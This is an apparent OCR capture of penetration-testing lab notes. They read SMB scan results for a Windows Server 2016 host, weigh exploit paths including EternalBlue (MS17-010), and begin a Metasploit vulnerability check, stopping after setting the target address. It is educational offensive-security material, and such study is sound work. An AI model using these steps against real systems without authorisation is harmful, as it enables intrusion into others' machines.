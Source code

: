 ```powershell
|_  System time: 2021-09-27T15:13:28-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-09-27T22:13:30
|_  start_date: 2021-09-23T15:29:29

We figured out a few things during scanning & validation of the example host in question.
It is running Windows Server 2016 Standard 6.3. We have the hostname now, and we know it is not in a domain and is running several services.
Now that we have gathered some information let's determine our potential exploit path.
IIS could be a potential path, attempting to access the host over SMB utilizing a tool like Impacket or authenticating if we had credentials could do it,
and from an OS perspective, there may be a route for an RCE as well.
MS17-010 (EternalBlue) has been known to affect hosts ranging from Windows 2008 to Server 2016.
With this in mind, it could be a solid bet that our victim is vulnerable since it falls in that window.
Let's validate that using a builtin auxiliary check from Metasploit, auxiliary/scanner/smb/smb_ms17_010.

2. Search for and decide on an exploit path
Open msfconsole and search for EternalBlue, or you can use the string in the session below to use the check.
Set the RHOSTS field with the target's IP address and initiate the scan.
As can be seen in the options for the module, you can fill in more of the SMB settings, but it is not necessary.
They will help to make the check more likely to succeed. When ready, type run.

Determine an Exploit path:
Here checking if it is exploitable using msfconsole
msf6 auxiliary(scanner/smb/smb_ms17_010) > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                 Required  Description
   ----         ---------------                 --------  -----------
   CHECK_ARCH   true                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framewor  yes       List of named pipes to check
                k/data/wordlists/named_pipes.t
                xt
   RHOSTS                                       yes       The target host(s), range CIDR identifier, or hosts f
                                                          ile with syntax 'file:<path>'
   RPORT        445                             yes       The SMB service port (TCP)
   SMBDomain    .                               no        The Windows domain to use for authentication
   SMBPass                                      no        The password for the specified username
   SMBUser                                      no        The username to authenticate as
   THREADS      1                               yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.129.201.97
```